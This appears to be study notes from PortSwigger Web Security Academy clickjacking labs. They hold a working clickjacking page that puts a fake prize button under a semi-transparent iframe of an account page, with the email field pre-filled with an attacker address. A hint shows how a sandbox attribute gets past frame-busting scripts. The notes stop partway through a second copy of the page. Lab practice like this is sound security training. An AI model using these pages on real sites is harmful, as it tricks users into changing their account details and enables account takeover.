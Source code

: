 ```htm
<html>
    <head>
        <style>
            #vulnarble_website {
                position:relative;
                width:1920px;
                height:720px;
                top: 85px;
                opacity:0.2;
                z-index:2;
                }
            #attacker_website {
                position:absolute;
                z-index:1;
                }
            #attacker_website button {
                margin-left: 425px;
                margin-top: 390;
                }
        </style>
    </head>
    <body>
         <div id="attacker_website">
            <h1>You Are The Winner!!!</h1>
            <h2>You won an awesome tropics holiday!</h2>
            <h2>Accept it by clicking the button below.</h2>
            <button type="reset">Click 2 Win!</button>
        </div>      
        <iframe id="vulnarble_website" src="https://0a14005903ae774bc1214359001900c6.web-security-academy.net/my-account?email=attacker@gmail.com">
        </iframe>
    </body>
</html>
```
# CLICK!

# ***3. Lab: Clickjacking with a frame buster script***
https://portswigger.net/web-security/clickjacking/lab-frame-buster-script


material: 
https://www.w3schools.com/tags/att_iframe_sandbox.asp


hint: 
frame breaker:
```htm
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
``
HTML5 iframe sandbox - allow-forms or allow-scripts
allow-top-navigation - omitted

use the same html clickjacking site with snadbox attribute added to the iframe
```htm
<html>
    <head>
        <style>
            #vulnarble_website {
                position:relative;
                width:1920px;
                height:720px;
                top: 85px;
```